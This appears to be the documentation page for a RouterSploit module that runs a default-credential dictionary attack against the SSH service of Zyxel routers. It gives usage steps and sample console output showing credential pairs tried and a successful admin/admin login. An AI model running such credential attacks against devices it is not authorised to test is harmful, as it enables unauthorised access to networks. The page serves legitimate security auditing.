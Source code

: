 ## Description

Module performs dictionary attack with default credentials against Zyxel Router SSH service.
If valid credentials are found, they are displayed to the user.

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use creds/routers/zyxel/ssh_default_creds`
  3. Do: `set target [TargetIP]`
  4. Do: `run`
  5. If valid credentials are found, they are displayed to the user.

## Scenarios

```
rsf > use creds/routers/zyxel/ssh_default_creds
rsf (Zyxel Router Default SSH Creds) > set target 192.168.1.1
[+] target => 192.168.1.1
rsf (Zyxel Router Default SSH Creds) > run
[*] Running module...
[*] Target exposes SSH service
[*] Starting default credentials attack against SSH service
[*] thread-0 thread is starting...
[-] SSH Authentication Failed - Username: 'admin' Password: '12345'
[-] SSH Authentication Failed - Username: 'admin' Password: '123456'
[-] SSH Authentication Failed - Username: 'Admin' Password: '12345'
[-] SSH Authentication Failed - Username: 'Admin' Password: '123456'
[+] SSH Authentication Successful - Username: 'admin' Password: 'admin'
[*] thread-0 thread is terminated.
[*] Elapsed time: 2.3932292461395264 seconds
[+] Credentials found!

   Target          Port     Service     Username     Password
   ------          ----     -------     --------     --------
   192.168.1.1     22       ssh         admin        admin 

```

